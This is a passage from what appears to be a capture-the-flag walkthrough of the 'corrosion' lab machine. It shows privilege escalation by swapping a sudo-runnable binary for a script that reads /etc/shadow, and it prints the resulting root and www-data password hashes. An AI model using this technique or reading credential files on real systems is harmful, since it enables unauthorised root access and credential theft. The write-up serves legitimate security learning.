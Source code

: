 Running "~/tools/easysysinfo" is not very exciting:<br><br>

```
randy@corrosion:~/tools$ ./easysysinfo
Tue Aug 30 01:38:52 AM MDT 2022
127.0.0.1	localhost


# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
Linux corrosion 5.11.0-25-generic #27-Ubuntu SMP Fri Jul 9 23:06:29 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```

At this point, various walkthroughs would have you re-compile *easysysinfo* from the zip file to include some malicious code and execute **that** binary. We found a shortcut though. We were able to rename *easysysinfo* and make our own version:<br><br>

```
randy@corrosion:~/tools$ mv easysysinfo easysysinfo2

randy@corrosion:~/tools$ echo "cat /etc/shadow" > easysysinfo

randy@corrosion:~/tools$ chmod +x easysysinfo

randy@corrosion:~/tools$ sudo ./easysysinfo

root:$6$TfVaEeYPwMngxSp9$oyTVT.IULXzdgfK3SFd3fQvQK0i36OBg0EgeMPRm3mE/bVXe7Ern2DcUYM9VxSLBPc7L67YDkHSYnclflhYeC/:18838:0:99999:7:::
daemon:*:18737:0:99999:7:::
bin:*:18737:0:99999:7:::
sys:*:18737:0:99999:7:::
sync:*:18737:0:99999:7:::
games:*:18737:0:99999:7::: 
man:*:18737:0:99999:7:::
lp:*:18737:0:99999:7:::
mail:*:18737:0:99999:7:::
news:*:18737:0:99999:7:::
uucp:*:18737:0:99999:7:::
proxy:*:18737:0:99999:7:::
www-data:$6$MK5CkKYNaIg4OF8n$vhO7qn8BdlQp7UUf35F1YyMgqc26Kx36G8CrspH2X8iF04maOUnJkyKVvK9wBOVkFxZV0tnuTu7HRahO89qs70:18838:0:99999:7:::
```

So, the next logical step is to add some super complex code that will run with sudo privileges:<br><br>

![sysinfo](./docs/corrosion/corrosion_10_sysinfo.png)
